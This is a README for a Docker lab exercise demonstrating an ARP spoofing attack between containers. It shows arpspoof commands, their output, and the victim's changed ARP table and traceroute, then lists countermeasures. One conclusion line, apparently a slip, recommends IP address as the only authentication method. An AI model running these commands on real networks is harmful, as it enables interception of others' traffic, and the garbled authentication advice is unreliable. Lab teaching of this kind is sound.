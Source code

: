 # Spoofing

## Content
- [Spoofing](#spoofing)
  - [Content](#content)
  - [Work Environment](#work-environment)
  - [Work Process](#work-process)
    - [arpspoof](#arpspoof)
    - [How to run](#how-to-run)
    - [Result](#result)
  - [Interpretation](#interpretation)
  - [Conclusion](#conclusion)

## Work Environment
The work environment is consisted of:
- three services
  - machine_1:
    - purpose: connect to machine_2, preview traceroute
    - tools: `traceroute`
    - ip: 10.10.10.2
  - machine_2:
    - ip: 10.10.10.3
  - pirate:
    - purpose: execute Arp Spoofing attack
    - tools: `arpspoof`
    - ip: 10.10.10.4
- log file
  - `./log/output.log`
- environment configuration in `.env` contains:
  - ip addresses configuration
  - commands to execute for machine_1 and pirate
  - paths for script for log file and script file
- `goal.bash`: script to execute machine_1 and pirate commands. (_be sure that goal.bash is executable_)
- `docker-compose.yml` configuration
  

## Work Process
### arpspoof
> arpspoof mounts an ARP spoofing attack against a host on the local network. This results in traffic from the attacked host to the default gateway (and all non-LAN hosts) and back going through the local computer and can thus be captured with tools like Wireshark. arpspoof will also forward this traffic, so Windows does NOT have to be configured as a router. [github/alandau]

### How to run
- execute docker-compose: `docker-compose up`
- in both `pirate` and `machine_1`, we execute `goal.bash` wich will execute the sequence of commands inside `.env` file
  - `docker exec -it machine_1 goal.bash`
  - `docker exec -it pirate goal.bash`


### Result
We'll have as a result:
- machine_1
``` bash
>>> press <enter> to execute (traceroute $IP_MACHINE_2)
traceroute to 10.10.10.3 (10.10.10.3), 30 hops max, 60 byte packets
 1  machine_2.exercice_3_network_ip (10.10.10.3)  0.187 ms  0.060 ms  0.061 ms
>>> press <enter> to execute (arp -a)
machine_2.exercice_3_network_ip (10.10.10.3) at 02:42:0a:0a:0a:03 [ether] on eth0
```
- pirate
``` bash
>>> press <enter> to execute (arpspoof -t $IP_MACHINE_1 $IP_MACHINE_2)
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at
```
- machine_1
``` bash
>>> press <enter> to execute (arp -a)
machine_2.exercice_3_network_ip (10.10.10.3) at 02:42:0a:0a:0a:04 [ether] on eth0
pirate.exercice_3_network_ip (10.10.10.4) at 02:42:0a:0a:0a:04 [ether] on eth0

>>> press <enter> to execute (traceroute $IP_MACHINE_2)
traceroute to 10.10.10.3 (10.10.10.3), 30 hops max, 60 byte packets
 1  pirate.exercice_3_network_ip (10.10.10.4)  0.120 ms  0.060 ms  0.048ms
 2  machine_2.exercice_3_network_ip (10.10.10.3)  0.079 ms  0.064 ms  0.067 ms
```
- pirate
``` bash
>>> press <enter> to execute (arpspoof -t $IP_MACHINE_2 $IP_MACHINE_1)
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
```

> full log will be stored in [./log/output.log](./log/output.log)


## Interpretation
- After `arpspoof` attack, a new line has been added to the arp table showen insde `machine_1` 
  - `pirate.exercice_3_network_ip (10.10.10.4) at 02:42:0a:0a:0a:04 [ether] on eth0`
  - The mac address of the target `machine_1` has been changed from `02:42:0a:0a:0a:03` to `02:42:0a:0a:0a:04` which is the mac adress of the pirate.
- When executing traceroute to `machine_2`, a new line has been added
  -  `1  pirate.exercice_3_network_ip (10.10.10.4)  0.120 ms  0.060 ms  0.048ms`
  -  The requesets to `machine_2` will be recieved by `pirate`
- In the end, we send `arpspoof` attack to `machine_2`




## Conclusion
- The attack may have strong impact if it is combined with `Dos` attack to prevent any probabilty of connection from the target machine we want to contact
- We should consider only ip address as the unique method for authentication.
- As counter measurment, we have to use other anti-arp solutions like:
  - DHCP snopping
  - cisco..
  - Xarp,.. 




